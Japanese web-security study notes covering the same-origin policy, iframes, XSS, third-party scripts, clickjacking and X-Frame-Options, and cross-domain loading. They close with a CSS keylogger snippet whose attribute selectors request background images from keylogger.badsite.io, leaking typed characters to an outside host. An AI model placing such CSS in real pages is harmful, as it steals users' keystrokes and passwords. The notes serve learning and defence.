 ### 同一オリジンとは
* スキーム(プロトコル) + URLのホスト(FQDN) + ポート番号が一致している

### iframe
* iframeを使うとHTML(外)の中に別のHTML(内)を埋め込める
* (外)と(内)のホストが同一ならJavaScriptを用いて(外)から(内)のデータにアクセスできる
* 同一生成元ポリシーがないと罠HTML(外)の中にiframeで正規のHTML(内)を埋めると、(内)の秘密情報にアクセスできてしまう
* XMLHttpRequestでアクセスできるURLも同じ制約がある
    * 相手の許可があれば同一オリジンでなくても通信できる規格CORS(後述)

### アプリの脆弱性と受動攻撃
* XSSがあると同一生成元ポリシーが回避されることがある
* iframeの内側にJavaScriptを送り込み、それが(内)の情報を取得する(XSS攻撃)

### 第三者のJavaScript
* サイト運営者が第三者を信頼して実行するJavaScript
    * アクセス解析、バナー広告、ブログパーツなど
    * 提供元が意図的に個人情報を収集する可能性
    * 脆弱性によりJavaScriptが差し替えられる可能性
    * 提供されたJavaScriptの脆弱性

### X-Frame-Options
* クリックジャック攻撃対策
* クリックジャック攻撃
ページの要素を隠蔽・偽装してクリックを誘って利用者の意図しない動作をさせようとする攻撃

* X-Frame-Optionsに設定可能な値
    * DENY ; ページをフレーム内に表示できない
    * SAMEORIGIN ; 自分と生成元が同じフレームに限りページを表示可能
    * ALLOW-FROM uri ; 指定された生成元に限りページを表示可能

### JavaScript以外のクロスドメインアクセス
* img要素
    * img要素のsrc属性はクロスドメイン可能
    * 意図しないサイトに画像が貼られるのを禁止したいならRefererをチェックする方法がある
        * Refererをオフにしてると見えなくなる
* script要素
    * script要素のsrc属性はクロスドメイン可能
    * サイトAからサイトBのJavaScriptを読むときBに対するクッキーが送信される
        * サイトBはその情報を使って応答を変えられる
        * JSONPでは公開情報のみを提供するようにすべき
* CSS
    * クロスドメインで読み込み可能

### [no-csp-css-keylogger.badsite.io](https://no-csp-css-keylogger.badsite.io/)
CSSを使ってkeyloggerを実現する

基本アイデアinputタグのvalueの値に応じて読み込むバックグラウンドイメージのURLを変える
```
<style>
input[value=" "] { background-image: url("//keylogger.badsite.io/+"); }
input[value$="  "] { background-image: url("//keylogger.badsite.io/++"); }
input[value$=" !"] { background-image: url("//keylogger.badsite.io/+%21"); }
input[value$=" \""] { background-image: url("//keylogger.badsite.io/+%22"); }
...

input[value$="~|"] { background-image: url("//keylogger.badsite.io/%7E%7C"); }
input[value$="~}"] { background-image: url("//keylogger.badsite.io/%7E%7D"); }
input[value$="~~"] { background-image: url("//keylogger.badsite.io/%7E%7E"); }
</style>
```
keylogger.badsite.ioでアクセスを見て入力文字を知る